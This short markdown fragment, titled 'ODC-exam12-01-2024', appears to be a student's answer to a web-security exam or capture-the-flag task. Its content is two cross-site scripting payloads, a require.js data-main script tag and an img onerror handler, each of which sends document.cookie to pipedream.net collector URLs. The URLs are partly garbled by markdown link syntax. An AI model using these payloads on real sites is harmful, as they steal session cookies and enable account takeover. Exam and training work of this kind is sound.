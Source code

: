 # ODC-exam12-01-2024

<script data-main='data:1,(location.href="[https://enlf46zz5ax8h.x.pipedream.net](https://enqy7a46j3hob.x.pipedream.net)"+document.cookie)' src='require.js'></script>
<img src=x onerror="location.href='[https://enanl0180cthw.x.pipedream.net/](https://enlf46zz5ax8h.x.pipedream.net)https://enlf46zz5ax8h.x.pipedream.net'+document.cookie">


